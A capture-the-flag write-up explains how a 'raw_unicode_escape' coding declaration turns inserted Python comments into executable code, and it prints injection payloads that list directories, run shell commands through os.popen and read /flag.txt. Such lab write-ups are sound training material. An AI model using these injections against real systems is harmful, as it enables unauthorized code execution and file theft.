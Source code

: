 # Challenge: My Awesome Python Homework Assignment 

## MISC: Python Comments

### Description

We are given a Python script `main.py` and a connection:

```bash
nc smtg.smtg.smtg.smtg smtg
```

The Python script prints a simple palindrome checking program but allows the user to **insert comments** at any line before saving and executing the script.

However, by using a **Python encoding trick**, comments can be used to **inject actual executable code** instead of just being ignored.

### Solution

The main vulnerability lies in the fact that we can add:

```python
# coding: raw_unicode_escape
```

This encoding makes Python treat `\u000a` as **real newlines** inside comments.

Thus, we can inject real Python code into the running script through comments.

First, I injected this to list files:

```python
# \u000aimport os\u000aprint(os.listdir("."))\u000a
```

Then, to explore deeper:

```python
# \u000aimport os\u000aprint("Is directory:", os.path.isdir("run"))\u000aif os.path.isdir("run"):\u000a  print("Contents of run:", os.listdir("run"))\u000aelse:\u000a  print("Contents of run:", open("run", "r").read())\u000a
```

I found that `run` was just the running file itself, no flag yet.

Next, I used a deeper scan:

```python
# \u000aimport os, glob\u000aprint("Current dir:", os.getcwd())\u000aprint("All files (detailed):", os.popen("ls -la").read())\u000aprint("Parent dir contents:", os.listdir(".."))\u000aprint("Flag files:", glob.glob("**/*flag*", recursive=True))\u000a
```

✅ Found a `flag.txt` in the parent directory!

Finally, I read the flag directly:

```python
# \u000aimport os\u000aprint("Flag content:", open("/flag.txt").read())\u000a
```

### Final Flag

```
texsaw{i_got_100%,thanks!!1!}
```

